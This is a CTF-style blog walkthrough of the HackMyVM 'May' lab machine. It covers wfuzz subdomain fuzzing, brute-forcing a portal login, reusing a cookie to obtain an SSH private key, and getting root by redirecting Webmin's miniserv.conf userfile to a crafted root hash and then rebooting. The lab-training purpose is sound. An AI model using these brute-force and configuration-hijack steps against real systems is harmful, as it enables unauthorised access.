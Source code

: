 ```yaml
---
layout: post
title:  "HackMyVM: May"
date:   2021-12-27 20:00:00 +1000
category: hacking
---
```


This is [May](https://hackmyvm.eu/machines/machine.php?vm=May). It's Medium rated. 

## Ports
SSH, HTTP and Webmin on Port 10000.

### HTTP
nmap says:

>http-title: Did not follow redirect to http://may.hmv

So I add that to /etc/hosts. I visit the homepage and get this:

>admin: Web is under construction. Use Intranet.  
marie: Where are now the keys?  
alice: Yes, where are?  
admin: :'(  

So we have three usernames, plus a suggestion of subdomains. Good enough for me:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/may]
└─# wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://may.hmv" -H "Host: FUZZ.may.hmv" -t 42 --hw 12 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://may.hmv/
Total requests: 114441

ID           Response   Lines    Word       Chars       Payload                           
000000048:   200        11 L     31 W       406 Ch      "portal"                           
000000183:   200        10 L     31 W       405 Ch      "ssh"                                                                                

Total time: 0
Processed Requests: 114441
Filtered Requests: 114439
Requests/sec.: 0
{% endhighlight %}

At both ssh.may.hmv *and* portal.may.hmv we get simple login forms, and all the fuzzing in the world doesn't find anything else. I try bruteforcing with my usernames, and eventually:

{% highlight shell %}
POST /check.php HTTP/1.1
Host: portal.may.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://portal.may.hmv
Connection: close
Referer: http://portal.may.hmv/
Upgrade-Insecure-Requests: 1

user=marie&password=rebelde
{% endhighlight %}

prompts this response:

{% highlight shell %}
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 27 Dec 2021 10:26:12 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: Sweetcookie=HMVHMXHMVHMXHMVHMXHMVHMX
Content-Length: 56

Hi marie!Portal is under development too.Come back later
{% endhighlight %}

This was using Burp Turbo Intruder and */usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt*

Now if we try using our cookie at the other subdomain?

{% highlight shell %}
POST /check.php HTTP/1.1
Host: ssh.may.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://ssh.may.hmv
Connection: close
Referer: http://ssh.may.hmv/
Upgrade-Insecure-Requests: 1
Cookie: Sweetcookie=HMVHMXHMVHMXHMVHMXHMVHMX

user=marie&password=rebelde
{% endhighlight %}

We get this:

{% highlight shell %}
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 27 Dec 2021 10:44:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1823

<pre>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA3HwQ6G67tSrcxTN2oOKplVae0b+gVe0x/btFSgGJy2bMoWc14qBO
jE7cEcO8tEB85mI3ftByjp6ZVcQWdmEFvqDjeiGvucu0cnO/kTYZGue34/P0+3TJ4Dn92l
# etc
l1iMe5oHRwklV/d5eEM/8bTl0MgDEhMYRLkmkuuhOb6rVIz3y3PVmE0zeQa2u6qj0stmLm
34pXoHjrR2KlUk5pvoXbcvm8TvnHypnIwls1QL5WsHMGNjt/AbboqLkA2m+v9IEEIww40w
8fGOoN87zX40QP6lAAAACW1hcmllQG1heQE=
-----END OPENSSH PRIVATE KEY-----
</pre>
{% endhighlight %}

Bingo.

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/may]
└─# chmod 600 id_rsa
                                                                               
┌──(root💀kali)-[/opt/hackmyvm/may]
└─# ssh -i id_rsa marie@10.10.10.43
Linux may 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 22 03:34:48 2021
marie@may:~$
marie@may:~$ sudo -l
Matching Defaults entries for marie on may:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marie may run the following commands on may:
    (ALL) NOPASSWD: /usr/sbin/halt, /usr/sbin/reboot, /usr/sbin/poweroff
marie@may:~$
{% endhighlight %}

Interesting, but not immediately useful. I run linpeas and find this:

>Interesting writable files owned by me or writable by everyone (not in Home) (max 500)  
>/etc/webmin/miniserv.conf

Hmmm, I'm pretty sure we shouldn't have access to that. Documentation is sparse, but in the end I create a file:

{% highlight shell %}
marie@may:~$ pwd
/home/marie
marie@may:~$ cat miniserv.users 
root:$1$84720675$F08uAAcIMcN8lZNg9D74p1:::::1584720675:::0::::
{% endhighlight %}

This uses the password **123**. That's the kinda thing an idiot would have on his luggage!

{% highlight shell %}
marie@may:~$ cat /etc/webmin/miniserv.conf 
port=10000
root=/usr/share/webmin
# etc
userfile=/home/marie/miniserv.users
keyfile=/etc/webmin/miniserv.pem
passwd_file=/etc/shadow
# etc
{% endhighlight %}

We edit /etc/webmin/miniserv.conf as shown above, and use our sudo powers to reboot the server:

``
sudo -u root /usr/sbin/reboot
``

Once it reboots, we can login at https://may.hmv:10000 with root:123 and we have access to a root terminal:

{% highlight shell %}
[root@may ~]# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
may
Mon Dec 27 06:29:04 EST 2021
[root@may ~]# cd /root
[root@may ~]# ls -lash
total 24K
4.0K drwx------  3 root root 4.0K Jul 22 02:56 .
4.0K drwxr-xr-x 18 root root 4.0K Jul 22 02:54 ..
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Jul 21 15:01 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root   13 Jul 22 02:47 root.txt
[root@may ~]# cat root.txt
FLAG_GOES_HERE

[root@may ~]#
{% endhighlight %}

Bit of fun this one.
